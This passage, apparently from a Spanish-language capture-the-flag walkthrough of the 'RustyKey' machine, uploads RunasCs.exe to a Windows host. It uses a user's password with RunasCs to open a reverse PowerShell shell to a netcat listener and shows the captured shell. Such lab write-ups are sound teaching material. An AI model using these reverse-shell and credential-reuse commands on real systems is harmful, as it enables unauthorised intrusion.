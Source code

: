 Ahora desde la `shell` vamos a descargarnos el `RunasCs.exe` llendo al directorio `Downloads` de nuestra carpeta de usuario para que podamos utilizarlo.

```powershell
cd C:/Users/bb.morgan/Downloads/
upload RunasCs.exe
```

Info:

```
Info: Uploading /home/kali/Desktop/rustykey/bloodyAD/RunasCs.exe to C:\Users\bb.morgan\Downloads\RunasCs.exe
                                        
Data: 68948 bytes of 68948 bytes copied
                                        
Info: Upload successful!
```

Ahora si desde una `shell` de `Windows` poniendo `shell` en el `meterpreter`...

Pero antes nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Ahora si enviamos este comando...

```powershell
.\RunasCs.exe ee.reed 'P@ssw0rd!' powershell.exe -r <IP>:<PORT>
```

Info:

```
[*] Warning: User profile directory for user ee.reed does not exists. Use --force-profile if you want to force the creation.
[*] Warning: The logon for user 'ee.reed' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-20b7ac4$\Default
[+] Async process 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' with pid 8460 created in background.
```

Ahora si volvemos a donde tenemos la escucha:

```
listening on [any] 7777 ...
connect to [10.10.14.79] from (UNKNOWN) [10.10.11.75] 60836
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
whoami
rustykey\ee.reed
```
